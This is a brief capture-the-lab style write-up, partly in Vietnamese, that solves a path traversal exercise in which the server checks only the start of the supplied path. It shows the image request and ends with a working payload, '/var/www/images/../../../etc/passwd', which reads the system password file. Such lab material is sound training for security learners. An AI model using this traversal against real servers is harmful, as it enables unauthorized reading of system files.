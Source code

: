 # **Lab: File path traversal, validation of start of path**

>  This lab contains a path traversal vulnerability in the display of product images.  
 The application transmits the full file path via a request parameter, and validates that the supplied path starts with the expected folder.  
  To solve the lab, retrieve the contents of the /etc/passwd file.  

# **Solution**

Lần này ta có filename như sau:

```
GET /image?filename=/var/www/images/66.jpg HTTP/2
```

Thử đổi filename:

```
filename=/etc/passwd
```

```
"Missing parameter 'filename'"
```

Res trả về lỗi này, có vẻ do không đúng định dạng yêu cầu mà filename đã bị bỏ qua.

Hãy giữ định dạng của `filename` gốc và đổi thành:

```
/var/www/images/../../../etc/passwd
```

Done~~